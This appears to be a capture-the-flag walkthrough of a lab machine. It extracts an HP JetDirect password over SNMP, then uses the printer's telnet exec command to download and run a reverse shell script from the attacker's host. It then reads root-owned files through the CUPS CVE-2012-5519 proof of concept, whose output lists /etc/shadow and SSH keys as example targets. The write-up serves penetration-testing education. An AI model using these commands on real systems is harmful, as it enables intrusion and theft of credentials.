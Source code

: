 IP: 10.129.52.212
Website: **None**
## Scan & Eval (Round 1)
#### NMAP Initial Scan
```
Nmap scan report for 10.129.52.212
Host is up, received conn-refused (0.045s latency).
Scanned at 2024-07-26 03:13:56 MDT for 0s

PORT   STATE SERVICE REASON
23/tcp open  telnet  syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 5.61 seconds
```
## Info Gathering (Round 1)
#### Telnet Port 23
- Upon connection you are greeted with the following
```
Trying 10.129.52.212...
Connected to 10.129.52.212.
Escape character is '^]'.

HP JetDirect

Password: 
```

## Exploitation (Round 1)
#### HP JetDirect
- HP JetDirect has a vulnerability that exposes its password via SNMP
	- Running the following command against the target returns raw bytes
```
❯ snmpget -v 1 -c public 10.129.52.212 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```
- Converting the bytes to ASCII reveals the password is `P@ssw0rd@123!!123`
	- Utilizing this password we gain access to the telnet interface
```
Trying 10.129.52.212...
Connected to 10.129.52.212.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
> 
```
- We can utilize the `exec` command to run commands
```
> exec uname -a
Linux antique 5.13.0-051300-generic #202106272333 SMP Sun Jun 27 23:36:43 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
> exec whoami
lp
```
- Crafted a basic `shell.sh` reverse shell and downloaded to the target then ran it to gain a reverse shell.
```
> exec wget http://10.10.14.35:8000/shell.sh
> exec chmod 777 shell.sh
> exec /bin/bash shell.sh
```
## Info Gathering (Round 2)
#### telnet.py File
- This file appears to be the python file of the telnet interface we logged in to.
#### Linpeas.sh
- Linpeas reports that there is a service on port `631` which is normally used my `cups`
```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      1165/python3        
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
```
- Running `curl http://127.0.0.1:631` reveals that it is running CUPS 1.6.1
	- This version of CUPS has a vulnerability that allows `lpadmin` to change `cupsd.conf` and redirect the error log page `http://127.0.0.1:631/admin/log/error_log` page to any file and read it out with root permissions. [CVE-2012-5519](https://github.com/p1ckzi/CVE-2012-5519)
```
curl http://127.0.0.1:631
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3792  100  3792    0     0  1851k      0 --:--:-- --:--:-- --:--:-- 1851k
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML>
<HEAD>
	<META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8">
	<TITLE>Home - CUPS 1.6.1</TITLE>
	<LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
	<LINK REL="SHORTCUT ICON" HREF="/images/cups-icon.png" TYPE="image/png">
</HEAD>
...
```

## Exploitation (Round 2)

- Utilizing the PoC `cups-root-file-read.sh` with command `echo '/root/root.txt' | ./cups-root-file-read.sh` the contents of `/root/root.txt` can be read.
```
                                            _
  ___ _   _ _ __  ___       _ __ ___   ___ | |_
 / __| | | | '_ \/ __|_____| '__/ _ \ / _ \| __|____
| (__| |_| | |_) \__ \_____| | | (_) | (_) | ||_____|
 \___|\__,_| .__/|___/     |_|  \___/ \___/ \__|
 / _(_) | _|_|      _ __ ___  __ _  __| |  ___| |__
| |_| | |/ _ \_____| '__/ _ \/ _` |/ _` | / __| '_ \ 
|  _| | |  __/_____| | |  __/ (_| | (_| |_\__ \ | | |
|_| |_|_|\___|     |_|  \___|\__,_|\__,_(_)___/_| |_|
a bash implementation of CVE-2012-5519 for linux.

[i] performing checks...
[i] checking for cupsctl command...
[+] cupsctl binary found in path.
[i] checking cups version...
[+] using cups 1.6.1. version may be vulnerable.
[i] checking user lp in lpadmin group...
[+] user part of lpadmin group.
[i] checking for curl command...
[+] curl binary found in path.
[+] all checks passed.

[!] warning!: this script will set the group ownership of
[!] viewed files to user 'lp'.
[!] files will be created as root and with group ownership of
[!] user 'lp' if a nonexistant file is submitted.
[!] changes will be made to /etc/cups/cups.conf file as part of the
[!] exploit. it may be wise to backup this file or copy its contents
[!] before running the script any further if this is a production
[!] environment and/or seek permissions beforehand.
[!] the nature of this exploit is messy even if you know what you're looking for.

[i] usage:
	input must be an absolute path to an existing file.
	eg.
	1. /root/.ssh/id_rsa
	2. /root/.bash_history
	3. /etc/shadow
	4. /etc/sudoers ... etc.
[i] ./cups-root-file-read.sh commands:
	type 'info' for exploit details.
	type 'help' for this dialog text.
	type 'quit' to exit the script.
[i] for more information on the limitations
[i] of the script and exploit, please visit:
[i] https://github.com/0zvxr/CVE-2012-5519/blob/main/README.md
[>] [+] contents of /root/root.txt:
```

# Complete